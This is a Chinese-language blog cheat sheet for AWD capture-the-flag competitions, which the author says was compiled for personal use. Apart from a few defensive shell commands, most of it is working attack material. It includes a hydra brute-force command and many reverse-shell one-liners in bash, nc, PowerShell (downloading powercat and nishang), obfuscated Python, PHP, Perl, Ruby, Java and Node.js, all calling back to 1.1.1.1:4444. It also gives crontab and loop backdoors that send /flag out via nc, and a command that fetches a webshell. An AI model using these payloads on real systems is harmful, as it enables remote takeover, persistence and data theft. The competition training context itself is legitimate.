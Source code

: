 ```yaml
---
title: AWD MyCheatSheet
tags: 学习笔记
abbrlink: 7923
date: 2020-01-23 19:00:05
categories:
---
```



## 前言

之前一次比赛中临时整理的,写给自己看.

## 攻击

### crunch + hydra

```
crunch 10 10 -t 201800%%% -o password.txt
hydra -u root -p password.txt -l 192.168.9.0/24
```

### 防御

```bash
ps -u ctf  # 显示特定用户进程

last -n 5 awk '{print $1}' # 显示最近登录的5个账号

cat /etc/passwd |awk -F ':' '{print $1}' #显示所有账户

netstat -antulp | grep EST # 查看所有链接

lsof -i:3306 # 查看端口号

tar cvf www.tar /var/www/html # 打包源码

scp /tmp ctf@192.168.1.1:/var/www/html # 下载源码

mysqldump -u root -p ctf>ctf.sql # 备份数据库

mysql -u root -p ctf< ctf.sql #恢复数据库
或
source ctf.sql 

find . -name "*.php" -perm 4777 # 查找777权限的php文件

find ./ -mtime 0 -name "*.php" # 查找24小时内修改过的php文件

rm -rf `find /var/www/html -name .*.php` # 删除目录下 .*.php的文件
    
chattr -R +i /var/www/html # 锁定文件
    
tcpdump -s 0 -w ctf.pcap port 9999 # 高权限tcpdump抓包

alias curl="echo flag{1a5d51c54515649463521}" # 别名,需要写到.bashrc

unalias # 取消别名
```

### 杀进程

```
kill [pid]
killall [进程名]
pkill [进程名]
pkill -u [用户名] # 一次不行多几次,再猛的不死马都得死
```



## 权限维持

### 反弹 shell

#### 系统自带反弹

```bash
nc -e /bin/bash 1.1.1.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.1.1.1 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:4444  
awk 'BEGIN{s="/inet/tcp/0/1.1.1.1/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### 反弹 shell

#### powercat

```cmd
# 下载powercat
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# 反弹shell
powercat -c 1.1.1.1 -p 4444 -e cmd
```

#### nishang

```cmd
# 下载Invoke-PowerShellTcp
IEX (**New**-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
# 反弹shell
Invoke-PowerShellTcp -Reverse -IPAddress 1.1.1.1 -port 4444
```

#### powershell自定义函数

```cmd
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('1.1.1.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### python2

```cmd
#linux
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#windows
python -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

#### python3

*(python3的只发现在msfvenom上有meterpreter版本的,没有普通的oneliner reverse shell,因此自己写了一个)*

```cmd
python -c "(lambda __g, __y: [[[[(sock.connect(('1.1.1.1',4444)), (lambda __after: __y(lambda __this: lambda: [[[[(sock.send(m_stdout), (time.sleep(1), __this())[1])[1] for (__g['m_stdout'], __g['m_stderr']) in [(comRst.communicate())]][0] for __g['comRst'] in [(subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE))]][0] for __g['data'] in [(data.decode('utf-8'))]][0] for __g['data'] in [(sock.recv(1024))]][0] if True else __after())())(lambda: None))[1] for __g['sock'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['time'] in [(__import__('time', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```



#### php

```shell
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### perl

```shell
perl -e 'use Socket;$i="1.1.1.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### ruby

```shell
# linux
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
# windows
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

#### java

保存到jar文件,运行

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

#### nodejs

```javascript
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

以上命令均测试过有效,使用请自行修改ip和port.

### 后门

#### crontab

`echo '*/1 * * * * nc -w 1 1.1.1.1 4444 < /flag' > initflag.cron` 

`crontab initflag.cron`

#### shell

`echo  'while true\ndo\nnc -w 1 1.1.1.1 4444 < /flag >&1\nsleep 1m\ndone'> web_init.sh`

`sh web_init.sh`

#### webshell

`curl http://1.1.1.1/LongLiveAlkaid.txt -o .function.inc.php`

webshell pass:
get:url?pass=LongLiveAlkaid
post:a



## 参考链接

<https://klionsec.github.io/2016/09/27/revese-shell/>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md)